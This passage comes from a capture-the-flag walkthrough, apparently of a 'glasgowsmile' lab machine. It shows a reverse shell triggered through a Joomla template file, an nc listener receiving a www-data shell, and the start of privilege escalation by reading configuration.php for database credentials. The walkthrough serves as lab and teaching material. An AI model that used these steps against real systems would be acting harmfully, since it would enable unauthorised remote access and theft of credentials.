 11. Execute reverse shell at `http://192.168.1.1/joomla/templates/beez3/error.php`
12. Obtain www-data shell
	```
	┌──(root💀kali)-[~/tools]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 192.168.1.1.
	Ncat: Connection from 192.168.1.1:55604.
	Linux glasgowsmile 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
	 14:48:46 up  1:42,  0 users,  load average: 0.08, 0.09, 0.09
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/bin/sh: 0: can't access tty; job control turned off
	whoami
	www-data
	$ 
	```
	![](images/Pasted%20image%2020220126045057.png)


# Privilege Escalation
## Rob - Via SQL Creds Found 
1. Find SQL Credentials
	```
	www-data@glasgowsmile:/var/www$ cd /joomla2	
	www-data@glasgowsmile:/var/www/joomla2$ ls
	www-data@glasgowsmile:/var/www/joomla2$ cat configuration.php 
	```